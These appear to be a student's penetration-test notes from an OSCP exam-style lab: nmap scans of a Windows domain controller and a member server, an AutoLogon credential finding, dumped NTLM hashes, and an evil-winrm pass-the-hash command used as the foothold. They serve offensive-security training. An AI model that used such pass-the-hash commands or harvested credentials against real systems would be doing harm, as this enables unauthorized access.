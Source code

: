 ```
|_    Message signing enabled but not required
|_clock-skew: mean: -5s, deviation: 0s, median: -5s
| smb2-time: 
|   date: 2024-09-08T13:41:18
|_  start_date: N/A
|_nbstat: NetBIOS name: MS02, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:6d:7d (VMware)

Post-scan script results:
| clock-skew: 
|   -5s: 
|     10.10.200.141
|_    10.10.200.142
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 3 IP addresses (3 hosts up) scanned in 1293.43 seconds
```

## Interested shit
1.      ```
           Looking for AutoLogon credentials
            Some AutoLogon credentials were found
            DefaultDomainName             :  OSCP.exam
            DefaultUserName               :  Administrato
        ```
2. ``` tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc ```

## Foothold
1. found celia ntlm
2. ```
    evil-winrm -i ms02 -u 'oscp.exam\celia.almeda' -H 'e728ecbadfb02f51ce8eed753f3ff3fd'
    ```

## Root


# DC01 .140
- dc01.oscp.exam
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-08 13:38:25Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: oscp.exam0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: oscp.exam0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
57708/tcp open  msrpc         Microsoft Windows RPC
```
